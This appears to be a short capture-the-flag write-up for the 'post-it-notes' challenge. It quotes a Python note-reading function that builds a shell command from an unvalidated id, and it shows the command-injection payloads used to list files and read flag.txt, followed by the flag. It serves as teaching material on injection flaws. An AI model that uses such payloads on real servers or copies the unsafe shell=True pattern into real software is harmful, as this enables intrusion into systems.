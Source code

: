 # post-it-notes (82 solves)

Source: [source/](./source)

Ignoring the questionable quality of the code, close analysis reveals an exploitable function:

```python
def get_note(nid):
    stdout, stderr = subprocess.Popen(f"cat 'notes/{nid}' || echo it did not work btw", shell = True, stdout = subprocess.PIPE, stderr = subprocess.PIPE, stdin = subprocess.PIPE).communicate()
    if stderr:
        print(stderr) # lemonthink
        return {}
    return {
        'success' : True,
        'title' : nid,
        'contents' : stdout.decode('utf-8', errors = 'ignore')
    }
```

`nid` is directly passed into this function from the web server code without any validation. This means that we can do command injection by appending commands to the end of a valid note url(which depends on your server instance).

`';ls '.` reveals the presence of a `flag.txt` file, which we can then read.

Final Exploit: `';cat 'flag.txt`

Flag:flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}
